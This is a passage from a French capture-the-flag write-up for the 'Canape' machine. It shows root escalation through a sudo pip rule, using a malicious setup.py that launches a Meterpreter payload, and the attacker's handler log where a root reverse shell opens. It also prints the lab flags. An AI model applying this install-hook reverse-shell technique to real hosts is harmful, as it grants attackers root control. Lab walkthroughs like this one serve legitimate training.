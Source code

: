 Essentiellement c'est juste le pass SSH qui nous intéresse et permet alors de récupérer le compte homer et (enfin) son flag (*bce918696f293e62b2321703bb27288d*).  

La suite est assez classique avec une entrée sudo à exploiter :  

```bash
homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

[Une recherche rapide](https://groups.google.com/forum/#!msg/python-virtualenv/Z11FHJDYKEk/fnaQELGXCPoJ) nous indique que l'on peut spécifier un package local avec l'option -e qui doit correspondre à un dossier contenant un *setup.py*.  

Il suffit de créer un *setup.py* qui réutilise notre *Meterpreter* :  

```bash
homer@canape:~/.devloop$ cat mypackage/setup.py
import os
os.system("/tmp/devloop_meterpreter")
homer@canape:~/.devloop$ sudo pip install -e mypackage
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Obtaining file:///home/homer/.devloop/mypackage
No files/directories in /home/homer/.devloop/mypackage (from PKG-INFO)
```

Et pendant ce temps là, à une demi-heure de route de chez *Léonard de Vinci* :  

```plain
msf exploit(multi/handler) > [*] Sending stage (816260 bytes) to 10.10.10.70
[*] Meterpreter session 4 opened (10.10.14.13:443 -> 10.10.10.70:34618) at 2018-08-27 14:45:20 +0200
msf exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > shell
Process 4987 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
cat root.txt
928c3df1a12d7f67d2e8c2937120976d
```

Spider-cochon
-------------

Ce CTF me laisse un souvenir impérissable avec cette \*\*\*\*\*\* d'option de CouchDB :D  

Pour le reste, c'était sympa d'exploiter les subtilités du script Flask :)

*Published September 15 2018 at 18:08*
